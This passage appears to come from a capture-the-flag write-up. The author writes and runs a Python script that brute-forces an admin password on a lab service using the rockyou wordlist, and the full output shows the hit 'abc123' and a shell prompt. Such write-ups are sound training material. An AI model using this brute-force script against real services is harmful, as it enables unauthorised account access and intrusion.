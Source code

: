 ```bash                                                                        
Start a fresh client to begin.
```
I created a simple Python script to fuzz the password. The script will try to connect to the target server. Once it's connected, it will send `admin` and check the response. If the response other than `password:`, then this is the correct password.
```py
import socket


TARGET_IP = '10.10.74.250'
TARGET_PORT = 8000
WORDLIST = '/usr/share/wordlists/rockyou.txt'


with open(WORDLIST, 'r', encoding="latin-1") as f:
    for password in f:
        password = password.strip()
        try:
            s = socket.socket()
            s.settimeout(3)
            s.connect((TARGET_IP, TARGET_PORT))

            # Send admin
            s.sendall(b"admin\n")
            data = s.recv(4096).decode()
            
            # read password prompt
            if "Password:" in data:
                s.sendall((password + "\n").encode())
                data = s.recv(4096).decode()
                print(f"[TRY] Password: {password} | Response: {data.strip()}")

                if "Password:" not in data:
                    print(f"\n[SUCCESS] Password found: {password}")
                    break
            else:
                print("Error: unexpected response after sending username")
            
            s.close()
        except Exception as e:
            print("Error: %s " %e)
```

Run the fuzzer.

```bash
─$ python3 fuzzer.py
[TRY] Password: 123456 | Response: Password:
[TRY] Password: 12345 | Response: Password:
[TRY] Password: 123456789 | Response: Password:
[TRY] Password: password | Response: Password:
[TRY] Password: iloveyou | Response: Password:
[TRY] Password: princess | Response: Password:
[TRY] Password: 1234567 | Response: Password:
[TRY] Password: rockyou | Response: Password:
[TRY] Password: 12345678 | Response: Password:
[TRY] Password: abc123 | Response: Welcome Admin!!! Type "shell" to begin

[SUCCESS] Password found: abc123
```
